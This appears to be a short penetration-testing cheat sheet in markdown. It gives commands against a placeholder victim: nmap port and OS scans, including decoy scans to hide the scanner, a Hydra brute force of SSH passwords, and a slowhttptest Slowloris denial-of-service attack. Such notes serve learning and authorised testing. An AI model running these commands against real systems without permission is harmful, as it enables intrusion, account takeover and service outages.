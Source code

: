 {% highlight shell %}
# nmap --top-ports 1000 -T2 [victim ip address]
{% endhighlight %}

Scan all ports aggressively

{% highlight shell %}
# nmap -p- -T4 [victim ip address]
{% endhighlight %}

Try to determine Operation system. Scan 1000 most common ports and try to determine service and version.

{% highlight shell %}
# nmap -O -sV --top-ports 1000 -T4 [victim ip address]
{% endhighlight %}

Scan insane fast in parallel and use decoys. In a target computer it looks like 3 different IP addresses are trying to scan it ports.

{% highlight shell %}
# nmap -p- -T5 --min-parallelism 5 [victim ip address zone] -D[decoy ip address],[decoy ip address]
{% endhighlight %}

## Hydra

Hydra is a brute force tool.

Brute forcing SSH account. Try to brute force 4 length password that contains only letters a and o. Delay is 1 second. Brute forcing is stopped if correct username and password is found.

{% highlight shell %}
# hydra -f -t 1 -l [username] -V -x 4:4:ao [victim ip address] ssh
{% endhighlight %}

## Slowhttptest

Slowlori attack is opening connections to HTTP server and keeps connections open. This makes web server to be very slow or unreachable.

Open 1000 connection and send only unfinished HTTP requests. Open 200 new connections per second and keep connections open by sending GET method in every 10 second with maximum length of 24 and wait 3 seconds for response.

{% highlight shell %}
# slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u http://[victim ip address or domain] -x 24 -p 3
{% endhighlight %}
